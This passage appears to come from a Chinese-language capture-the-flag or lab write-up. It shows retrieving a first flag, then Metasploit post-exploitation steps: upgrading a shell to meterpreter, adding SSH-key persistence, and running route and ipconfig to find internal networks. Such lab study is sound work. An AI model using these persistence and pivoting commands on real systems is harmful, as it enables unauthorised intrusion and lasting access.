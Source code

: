 ```
    ```shell
    ls /tmp
    ```
    获取后提交到场景中就可以拿分了
    ![](./images/拿到第一个flag.png)
## 基于第一层靶标发现内网容器与靶标
1. 入口靶标的打击在实验中拿到的shell是不一定的，所以我们每次在metasploit中对需不需要进行升级shell有一定的取舍
```ruby
# 如果拿到的是普通shell
sessions -u 1 #升级拿到的shell
# 升级后的shell是meterpreter,在这个实验中可能会退出，所以可以进行持久化处理
metepreter> run post/linux/manage/sshkey_persistence
```
2. 对meterpreter容器进行网络扫描和信息收集
```ruby
meterpreter> route
meterpreter> ipconfig
```
![](./images/第一个靶机的route表.png)
![](./images/第一层ipconfig看到两张网卡.png)
